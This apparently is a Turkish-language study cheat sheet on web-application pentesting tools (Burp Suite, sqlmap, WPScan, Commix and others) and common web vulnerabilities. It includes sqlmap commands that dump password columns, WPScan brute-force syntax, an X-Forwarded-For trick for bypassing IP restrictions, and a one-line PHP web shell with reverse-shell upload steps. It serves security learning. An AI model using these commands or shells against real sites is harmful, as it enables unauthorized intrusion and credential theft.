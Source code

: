 ## 03. WEB APPLİCATİON ANALYSİS (WEB UYGULAMA ANALİZİ) :

### BURPSUİTE : ***
-	Ücretsiz versiyonu biraz kısıtlı
-	Zafiyet testi yapılır.
-	Kaba Kuvvet saldırısı yapar.
-	Proxy ile sitede değişiklik yapma.  
> Proxy kullanmak için gerekli olan ayar: Mozilla’da Ayarlar / Advanced / Network / Setting / Manuel proxy seç. http:127.0.0.1  port:8080 , alttaki tik işaretini aktif et  
Bu sayede site ile sunucu arasına girerek değişiklik yapmaya izin verecek.  
*intercept on olacak  
*Her adım için forward tıkla.

> **Sertifika Yükleme**  
  Https sitelerin içeriğini incelerken sorun yaşamamak için sertifika yüklemek gerekir. Proxy ayarlandıktan sonra tarayıcıya `http://burp` yazarak çıkan sertifika indirilir. Tarayıcı ayarlarından sertifika bölümünden İçe Aktar diyerek sertifika yüklenir.  
  
> **Sitelerin IP Kısıtlama Engelini Geçme**  
  Siteye giriş yapmaya çalış. Burp’de yakalanan bilgilerin altına;  
  X-Forwarded-For: Girişe izin verilen ip adresini gir.  
  Forward tıkla. Devam et.  
  
### COMMİX :
    Bir sitenin komut satırını ele geçirme.
    commix --url=sitenin adı

### HTTRACK :
    Bir sitenin kopyasını almaya yarar.
    Proje adı gir / Nereye kaydedileceğini gir / Site adı gir / 5 seçenekten birini seç / Enter / Enter / y


### OWASP-ZAP :	***
    Site zafiyetlerini bularak bilgileri döker. 
    Alan adı ya da ip adresi gir. Saldırı butonuna tıkla.

### SKİPFİSH :
	Site hakkında açıklar, resimler vb. bilgileri verir. Kaydedilen dosyada index.html aç.
	“skipfish -o /root/… http:site adı”

### SQLMAP : ***
Sql açığı bulunan sitelerde veri tabanına ulaşmamızı sağlar.  
`sqlmap -u açıklı site linki --dbs` => sitedeki sql açığını kullanarak veri tabanı ismini verecek.  
`sqlmap -u açıklı site linki -D veri tabanı ismi --tables` => Veri tabanı adını kullanarak tabloları verecek.  
`sqlmap -u açıklı site linki -D veri tabanı ismi -T table  adı --colums` => Tablo adını kullanarak kolonları verecek.  
`sqlmap -u açıklı site linki -D veri tabanı ismi -T table  adı -C user_pass --dump` =>kolonun içindeki şifreyi görme  

### WEBSCARAB :
	Proxy ile veri değiştirir. Spider özelliği ile link toplar.

### WPSCAN:
	Wordpress sitelerde bilgi toplamaya ve kaba kuvvet saldırısı yapmaya yarar.
    `wpscan --url site adı --enumerate p`  
    p= eklentileri bulur
    u=yönetici adını bulur
    t=temayı bulur  

    Kaba kuvvet saldırısı => “wpscan --url site adı --username admin --wordlist /root/…”

---


## SİTE ZAFİYETLERİ

### Brute Force (Kaba Kuvvet) Saldırısı
> Kullanıcı adı ve parola girilen yerlerde belli bir kısıtlama yoksa sürekli deneme yaparak (wordlist aracılığıyla) kullanıcı adı ve parolayı tespit etmeye yarar. Örnek program “Hydra”

### Command Injection (Komut Enjeksiyonu)
> Bir web uygulaması üzerinde uzaktan kod çalıştırabilme. Text yazılan kısma özel karakter (&&) girdikten sonra yazılan komutlar, komut satırında yazılıyormuş gibi davranır.

### CSRF (Siteler Arası İstek Sahtekârlığı) Zafiyeti 
> Giriş panellerinde oluşan açıktır. Girilen kullanıcı adı ve parola değiştirildiğinde adres satırında girilen değerler yazar. Adres satırından şifreler değişebilir.

### File Inclusion Zafiyeti
> Bulunduğu sistemdeki dosyaları okumaya yarayan araçtır. (etc/passwd dosyasını)

### File Upload Zafiyeti
> Siteye zararlı bir dosya upload ederek ele geçirmek. (Örnek siteye shell atılması)  
php shell atma :  pentestmonkey sitesinden php reverse shell indir. ip ve port değiştir.  
cmd shell örneği :   `<?php system ($_GET[‘cmd’]);?>`

### Sql Injection Zafiyeti
> Beklenilen girdiler dışında bir aksiyonla site syntax hatası veriyorsa sql açığı olduğunu anlarız.

### Sql Injection (Blind)
> Sql Injection açığından farkı; açık olduğu web sitesine yansıtılmaz yani hata kodu görülmez.

### XSS Reflected Zafiyeti
> Yazı yazılabilen bir alanda bu zafiyet olabilir. Reflected zafiyetinde yazılan kodlar sadece bizi etkiler, siteye kaydedilmez.

### XSS Stored Zafiyeti
> Yapılan işler veri tabanına kaydedilir. Bütün giriş yapan kullanıcılar etkilenir. Html, javascript kodları çalışır.
